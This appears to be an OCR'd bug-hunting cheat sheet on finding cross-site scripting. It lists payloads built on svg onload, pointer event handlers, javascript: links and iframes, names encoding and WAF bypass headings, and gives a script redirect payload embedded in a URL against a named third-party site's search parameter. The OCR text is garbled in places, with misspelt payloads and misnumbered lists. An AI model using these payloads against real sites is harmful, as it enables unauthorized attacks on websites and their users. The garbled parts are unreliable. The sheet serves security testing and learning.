 **How to Hunt for XSS**

• Find a Input Parameter, Give any input There. If your input reflects or stored anywhere there may be XSS

• Try to execute any JavaScript code there, if you succeed to execute any JavaScript there then there is a XSS vulnerability.

• Exploitation of XSS

1.  "\>\<svg onload=alert()\>
    1.  " onmouseover=alert() "
    2.  "autocous/onfocus="alert()
    3.  '-alert()-'
    4.  \<a href="javascript%26colon;alert(1)"\>click
    5.  \<iframe/src \\/\\/onload = prompt(1)

sort out all the parameters in burp-suite and check one by one or browse it through the webserver and check it here reflecting or not.

White characters Identification XSS Vulnerability:

1\. Characters ' " \< \> / // ( ) \^ script img svg div alert prompt

2\. Event Handlers

Hello" onkeypress="prompt(1)

\<div onpointerover="alert(45)"\>MOVE HERE\</div\>

\<div onpointerdown="alert(45)"\>MOVE HERE\</div\>

\<div onpointerenter="alert(45)"\>MOVE HERE\</div\>

\<div onpointerleave="alert(45)"\>MOVE HERE\</div\>

\<div onpointermove="alert(45)"\>MOVE HERE\</div\>

\<div onpointerout="alert(45)"\>MOVE HERE\</div\>

\<div onpointerup="alert(45)"\>MOVE HERE\</div\>

3\. Bypass using UTF-8

4\. Bypass using Unicode

5\. Bypass using HTML encoding

6\. Bypass using Octal encoding

7\. Bypass using Unicode

8\. Common WAF Bypass

7\. URl Redirection (instead of alert(1) we use this url redirection) if it is redirecting bing.com yes it is vulnerable for url redirection.

payload: \<script\>docuement.location.href="http://bing.com"\</script\>

[http://www.woodlandwordwide.com/wnew.faces/tiles/page/search.jsp?searchkey=\<script\>docuement.location.href="http://bing.com"\</script\>](http://www.woodlandwordwide.com/wnew.faces/tiles/page/search.jsp?searchkey=%3cscript%3edocuement.location.href=%22http://bing.com%22%3c/script%3e)
